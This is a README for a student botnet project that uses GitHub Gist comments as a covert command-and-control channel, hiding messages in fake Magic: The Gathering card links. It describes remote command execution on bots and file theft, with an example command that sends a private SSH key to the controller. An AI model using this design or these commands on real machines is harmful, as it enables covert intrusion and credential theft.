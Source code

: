 # GistBotnet

A simple botnet implementation using GitHub Gists as the communication channel.

The project is intended for academic purposes.
It was done as a part of the "Introduction to Security" course at FEE of CTU in Prague.

## Features

The botnet uses comments of a specified gist post as the communication channel.

The controller periodically checkd which bots are alive.

Any bash command can be executed on the bot machines using the controller. (Including execution of a binary file.)

A file can be sent from any bot to the controller.

The communication is 'steganized' to not look like bot communication and a (very basic) encryption is used.

All sent and received commands are logged in the `.controllog` and `.botlog` files.

## Message Steganization

The messages are steganized so it looks as if the comment section of the gist post was being used by the user as a list of good cards they found for their MtG decks.

The following process takes place to steganize each message:

- Randomly select one of the predefined MtG decks.

- Query scryfall.com for a random card which fits the given deck using predefined queries for each deck.

- Select a random 'human note' from a predefined list of notes.

- Base64 encode the secret message, encrypt it via the Vigenere cypher and url encode it.

- Construct the gist comment by combining the human note, deck name, card name and card link. Concatenate the encoded message to the card link with preceding `/#` so that the link works as normal.

This process ensures that the message does not look suspicous or bot-generated at the first glance and the encoded secret message is hidden in the link (which still works) and thus not immidiately suspicious.

Here is an example of how the communication channel can look: https://gist.github.com/Sheld5/d52ec4473ceeb711bf234f1e41ebc06a

## Basic Usage

### Configuration

The botnet has to be configured before usage by filling all fields in the `config.json` file.

`GIT_API_TOKEN`: Github access token to post comments on the gist. Create one at https://github.com/settings/tokens?type=beta. Give it the 'Read and Write access to gists' permission.

`GIST_ID`: The id of the gist used as the communication channel. Copy it from the gist url. (`https://gist.github.com/<USER>/<GIST_ID>`)

`STEG_KEY`: The key used for message encryption. Can contain letters (upper & lower case) and digits.

### Bot

- Run `python3.8 bot.py`. The bot will periodically check for any new commands from the controller and respond to them.

### Controller

- Run `python3.8 controller.py hb` in one terminal. This proccess will periodically send 'HEARTBEAT' messages to the bots to check which are alive and recieve all of their responses.

- Run `python3.8 controller.py cmd -d <command> -b <botid>` to request a bot to execute the given command.

## Commands

The list of all controller commands follows:

### heartbeat, hb

Periodically check which bots are alive and receive their responses.

Examples: `python3.8 controller.py heartbeat` `python3.8 controller.py hb`

### cmd, exec

Execute the given command or binary file. (The two options are equivalent.)

Examples: `python3.8 controller.py cmd -d ps` `python3.8 controller.py exec -d /path/to/bin`

### w, ls, id

Execute the according shell command. The same result can be achieved using the `cmd` command.

Examples: `python3.8 controller.py ls` is equivalent to `python3.8 controller.py cmd -d ls`

### sendfile, sf

Send the given file to the controller.

Examples: `python3.8 controller.py sf -d README.md` `python3.8 controller.py sf -d ~/.ssh/id_ed25519`

## Options

### --data, -d

Provide data if the command requires it.

### --bot, -b

Specifiy the id of the bot which is to execute the command. Defaults to `0` which is interpreted as BROADCAST and all bots will respond.

### --silent, -s

Make the controller print less output.

### --noresponse, -n

Tell the bot to not respond to this command and only execute it. (Only makes sense with some commands.)

